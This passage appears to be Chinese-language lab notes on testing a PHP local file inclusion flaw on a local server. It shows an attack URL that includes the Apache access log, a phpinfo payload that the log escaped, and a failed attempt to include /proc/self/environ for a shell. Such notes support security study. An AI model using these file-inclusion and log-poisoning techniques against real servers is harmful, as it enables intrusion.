 包含日志`http://127.0.0.1:8099/?lfi=/usr/local/apache2/logs/access_log`

![](assets/markdown-img-paste-20180413091942567.png)

`不同的目标的日志文件的位置可能不一样`  

再看看分别用浏览器和curl访问后的错误日志文件的内容`error_log`

```
[root@b19f05cf6eb3 logs]# tail -2 error_log
[Fri Apr 13 01:32:53.857953 2018] [php7:warn] [pid 13889:tid 140607540348672] [client 172.19.0.1:39136] PHP Warning:  include(&lt;?php phpinfo();?&gt;): failed to open stream: No such file or directory in /var/www/html/index.php on line 4
[Fri Apr 13 01:32:53.858020 2018] [php7:warn] [pid 13889:tid 140607540348672] [client 172.19.0.1:39136] PHP Warning:  include(): Failed opening '&lt;?php phpinfo();?&gt;' for inclusion (include_path='.:/usr/local/php7/lib/php') in /var/www/html/index.php on line 4
```

可见符号`<>`都被转义了，不能利用

* 包含/proc/self/environ getshell

显然这个方法是不行的，权限不足，另外据我我的没用到cgi?，他的格式也没有像网上说的那样?  

![](assets/markdown-img-paste-2018041310580406.png)
